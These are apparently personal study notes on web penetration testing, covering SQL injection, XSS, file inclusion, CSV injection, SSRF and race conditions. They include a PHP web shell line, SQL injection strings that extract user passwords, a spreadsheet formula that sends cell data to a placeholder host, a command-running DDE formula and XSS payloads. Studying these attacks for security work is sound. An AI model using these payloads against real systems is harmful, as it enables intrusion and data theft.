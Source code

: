 # bug bounty reference

https://github.com/ngalongc/bug-bounty-reference
# web-pen-basic
understand





 - Command injection is "string to command".(;,||,&&, are used to join command.The `exec()` function is for code execution.
 - Code injection is "string to code".("." is used to join code)(`eval()` function).Using " , ' for testing.
 - Directory traversal  is  "file to code".
 -  log poison
 - Using burp suit by replacing`<?php system($_GET[cmd]);`
 -  LFI , RFI(file=www.google.com or webshell)

File inclusion
---
 `include()` function 
 1. Command injection`echo exec("whoami")`
 2.                    `system("whoiam")`
 3. Blind command injection`exec("whoami")`
 4. [command payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
 5. Searching
            Regular expression security cheatsheet

SQL Injection
--

 1.union based(echo)
 - users where id=0 or 1=1     
 
 - testing numbers of columns with "order by"   
 -    union select,database(),version()   
 

     -1 union select 1,2,3,concat(table_name) from information_schema.tables where table_schema=database()    
     -1 union select 1,2,3,concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' //group_concat  
    
     -1 union select 1,2,3,concat(username,password) from users


  
 1. Error base(//echo)
       
 2. Blind based (//mysqli_report(MYSQLI_REPORT_ERROR |

MYSQLI_REPORT_STRICT))

     

 

 
 - Time based blind(1 -sleep(5))

    

 - boolean based blind(id=1 and 1=2) 
 ` $sql ="SELECT * FROM users WHERE id="$uid""`
 `$sql ="SELECT * FROM users WHERE id='$uid'"`
  `$sql ="SELECT * FROM users WHERE id=('$uid')"`

https://github.com/LunaM00n/Free-WebSec-Class/blob/master/Lectures/06.SQL%20Injection.md

Same Original Method Execution
--

 - html injection be
 - iframe does not allow taking script from another site.
 - [REF](https://github.com/LunaM00n/Free-WebSec-Class/blob/master/Lectures/07.Some.md)
 - universal xss

## CSV Injection
Reference
```
https://www.contextis.com/en/blog/comma-separated-vulnerabilities
https://blog.zsec.uk/csvhub/
```
Formulas  
```
=SUM(A1,A2)

```
Data Exfiltration
```
=HYPERLINK("http://host?leak="&A1&A2,"Error: please click for further information")
```
Client Side RCE ( Trust Relationships )
```
=cmd|' /C calc'!A0
```
Powersploit and Metasploit Client Side Payloads

```https://github.com/PowerShellMafia/PowerSploit ```

```https://www.offensive-security.com/metasploit-unleashed/client-side-exploits/ ```

Cross-site Request Forgery(CSRF)
--

 - Using get method by viewing uri
 - Payload
 `https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection`


Server Side Request Forgery(SSRF)
---

 - Have server ,client
 - server_address/ssrf.php?url=http://localhost/intranet.php
 
 
 
      <?php
    echo $_GET['name']
    ?> 
 

 
XSS
--
 1. Cookies can be stole.
 2. Java script execution 
 3. Advanced handler like
 4. Obfuscation
 5. Bypass or Escape
 6. Avoiding
 7. HtmlSpecialCharacter works encoding
 8. After hash sign,browser encode it.
 9. can steal cookies 
 10.can execute script when you sent to other users. 
 
 `<img src=x onerror=alert(1)>`

`<script> prompt(1)</script>`

`<svg onload=alert(1) `

`<a onclick=alert(1)>`

`<body onload=alert(1)> `

[cheatsheethtml5](https://html5sec.org/)

**DOM**

[public_firing](https://public-firing-range.appspot.com/)

**
Relative Path Overwrite(RPO)**
 
[RPO](http://www.thespanner.co.uk/2014/03/21/rpo/)
[REF](https://blog.innerht.ml/)

XXE
--

>xpath or xxe (xml external entity )
>

[play xxe](https://pentesterlab.com/exercises/play_xxe/course)




Web Cache Poisoning
-

 - Using burp suit para miner
 -` Get\?`
 
 HTTP Host Header Injection
 --
 DOM
 --
 
 - location.hash
 - https://public-firing-range.appspot.com/

Race Condition(TOTUC)
--

 - Transfer each other
 - Other will get more than the amount of transferred
 
`import datetime
import requests
from threading import Thread

def intruder(i):
	reponse=requests.get("http://127.0.0.1/webpen/race_condition/racer.php?test")
	print "Thread #{} - {}".format(i,response.text)

for i in range(20):
   	t=Thread(target=intruder,args=(i,))
	t.start()`

 - https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use
 - https://defuse.ca/race-conditions-in-web-applications.htm
 - https://sakurity.com/blog/2015/05/21/starbucks.html?source=post_page-------------------------

PHP Object Injection
--

 - Object Oriented Programming(OOP)
 - Magic Method(auto call)

Server Side Template Injection
---

Document Object Model
--
Relative Path  Overwrite
--

Reference
--

> [payload](https://github.com/swisskyrepo/PayloadsAllTheThings)
> https://github.com/LunaM00n/Free-WebSec-Class/
